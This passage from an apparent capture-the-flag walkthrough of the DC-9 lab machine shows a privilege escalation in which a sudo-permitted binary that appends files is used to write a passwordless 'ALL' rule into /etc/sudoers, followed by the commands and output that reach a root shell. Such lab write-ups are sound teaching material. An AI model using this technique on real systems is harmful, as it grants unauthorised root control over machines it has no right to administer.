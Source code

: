 ```bash

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

Ok now it makes sense. The test binary is running this file. This python script appends the content of one file onto another file. Assuming there is some way to pass the arguments with the binary, this should allow for privilege esclation. Let's try this quickly.
```bash
fredf@dc-9:/tmp$ echo "TEST1" > file1
fredf@dc-9:/tmp$ touch file2
fredf@dc-9:/tmp$ ls -l file*
-rw-r--r-- 1 fredf fredf 6 Jul  3 17:41 file1
-rw-r--r-- 1 fredf fredf 0 Jul  3 17:41 file2
fredf@dc-9:/tmp$ sudo /opt/devstuff/dist/test/test /tmp/file1 /tmp/file2
fredf@dc-9:/tmp$ cat file2
TEST1
```
That worked.

### 11. Escalate to root
Create a file with a line which will allow the current user to sudo without password to run whatever they want, then append that to /etc/sudoers.
```bash
fredf@dc-9:/tmp$ echo "fredf ALL=(ALL) NOPASSWD: ALL" > file1
fredf@dc-9:/tmp$ sudo /opt/devstuff/dist/test/test /tmp/file1 /etc/sudoers
fredf@dc-9:/tmp$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
    (ALL) NOPASSWD: ALL
```

Now go straight to root.
```bash
fredf@dc-9:/tmp$ sudo -i
root@dc-9:~# whoami
root
```